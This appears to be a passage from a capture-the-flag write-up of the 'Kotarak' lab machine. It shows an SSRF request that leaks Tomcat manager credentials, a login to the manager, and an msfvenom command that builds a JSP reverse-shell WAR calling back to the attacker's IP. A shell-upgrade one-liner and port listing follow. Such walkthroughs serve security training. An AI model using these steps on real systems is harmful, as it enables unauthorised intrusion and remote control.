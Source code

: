 Going through each one individually the most interesting one is port 888:

![image.png]({{ site.baseurl }}/assets/kotarak/image%209.png)

We note the http parameter 

```bash
?doc=backup
```

![image.png]({{ site.baseurl }}/assets/kotarak/image%2010.png)

Now let’s try requesting this page on burp:

```bash
GET /url.php?path=localhost%3A888%3Fdoc%3Dbackup HTTP/1.1
```

We get credential:

![image.png]({{ site.baseurl }}/assets/kotarak/image%2011.png)

```bash
admin:3@g01PdhB!
```

Let’s try logging on to tomcat now.

```bash
http://10.10.10.55:8080/manager/html
```

We are in the manager application.

![image.png]({{ site.baseurl }}/assets/kotarak/image%2012.png)

Now we can create a .war reverse shell and execute it:

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.16.7 LPORT=4444 -f war > backup.war
```

Now upload it:

![image.png]({{ site.baseurl }}/assets/kotarak/image%2013.png)

We can upgrade our shell:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

Let’s also see what ports are running:

```bash
ss -lntp

State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      128    127.0.0.1:200                      *:*                  
LISTEN     0      80     127.0.0.1:3306                     *:*                  
LISTEN     0      128    127.0.0.1:110                      *:*                  
LISTEN     0      5      10.0.3.1:53                       *:*                  
LISTEN     0      128          *:22                       *:*                  
LISTEN     0      128    127.0.0.1:888                      *:*                  
LISTEN     0      128    127.0.0.1:90                       *:*                  
LISTEN     0      128    127.0.0.1:320                      *:*                  
LISTEN     0      1         ::ffff:127.0.0.1:8005                    :::*                   users:(("java",pid=1227,fd=75))
LISTEN     0      128    fe80::1%lxdbr0:13128                   :::*                  
LISTEN     0      100         :::8009                    :::*                   users:(("java",pid=1227,fd=59))
LISTEN     0      100         :::8080                    :::*                   users:(("java",pid=1227,fd=54))
```